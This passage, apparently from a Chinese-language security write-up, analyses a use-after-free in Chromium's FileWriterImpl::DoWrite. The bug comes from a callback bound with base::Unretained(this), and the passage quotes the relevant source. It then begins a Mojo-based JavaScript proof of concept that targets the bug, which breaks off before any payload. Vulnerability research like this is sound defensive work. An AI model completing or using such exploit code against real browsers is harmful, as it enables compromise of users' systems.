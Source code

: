 ```
      return `{`'uuid': 'blob_0'`}`;
    `}`
  `}`;
```

回到`raw_blob-&gt;GetInternalUUID`，其参数是一个callback，这里记做callback2，callback2最终就是调用callback1，并将从uuid得到的BlobData，作为callback1，即DoWrite的最后一个参数`std::unique_ptr&lt;BlobDataHandle&gt; blob`。

```
...
void BlobStorageContext::GetBlobDataFromBlobPtr(
    blink::mojom::BlobPtr blob,
    base::OnceCallback&lt;void(std::unique_ptr&lt;BlobDataHandle&gt;)&gt; callback) `{`
  DCHECK(blob);
  blink::mojom::Blob* raw_blob = blob.get();
  raw_blob-&gt;GetInternalUUID(mojo::WrapCallbackWithDefaultInvokeIfNotRun(
      base::BindOnce(
          [](blink::mojom::BlobPtr, base::WeakPtr&lt;BlobStorageContext&gt; context,
             base::OnceCallback&lt;void(std::unique_ptr&lt;BlobDataHandle&gt;)&gt; callback,
             const std::string&amp; uuid) `{`
            ...
            std::move(callback).Run(context-&gt;GetBlobDataFromUUID(uuid));
          `}`,//---&gt; 类似于函数指针
          std::move(blob), AsWeakPtr(), std::move(callback)),
      ""));
`}`
```

现在我们将调用callback1回调`FileWriterImpl::DoWrite`，而此时，因为FileWriterImpl实例已经在回调到js里时析构掉了，所以就触发了UAF。

[![](https://p5.ssl.qhimg.com/t014b45e17d8a14aaad.jpg)](https://p5.ssl.qhimg.com/t014b45e17d8a14aaad.jpg)

这个漏洞的一个关键就是callback1的参数`base::Unretained(this)`，被Unretained修饰的this指针，只由回调的调用者来保证回调执行时，this指针仍然可用。

这里如果换成WeakPtr，那么在this被析构后，回调就不会被执行。

### <a class="reference-link" name="poc"></a>poc

```
&lt;html&gt;
  &lt;body&gt;
    &lt;script src="/mojo_bindings.js"&gt;&lt;/script&gt;
    &lt;script src="/third_party/blink/public/mojom/blob/blob_registry.mojom.js"&gt;&lt;/script&gt;
    &lt;script src="/third_party/blink/public/mojom/filesystem/file_system.mojom.js"&gt;&lt;/script&gt;
    &lt;script&gt;
(async function poc() `{`
  let blob_registry_ptr = new blink.mojom.BlobRegistryPtr();
  Mojo.bindInterface(blink.mojom.BlobRegistry.name,
                     mojo.makeRequest(blob_registry_ptr).handle, "process");

  function BytesProviderImpl() `{`
    this.binding = new mojo.Binding(blink.mojom.BytesProvider, this);
  `}`

  BytesProviderImpl.prototype = `{`
    requestAsReply: async () =&gt; `{`
      console.log('requestAsReply');
    `}`,
    requestAsStream: async (arg0) =&gt; `{`
      console.log('requestAsStream');
    `}`,
    requestAsFile: async (arg0, arg1, arg2, arg3) =&gt; `{`
      console.log('requestAsFile');
    `}`
```
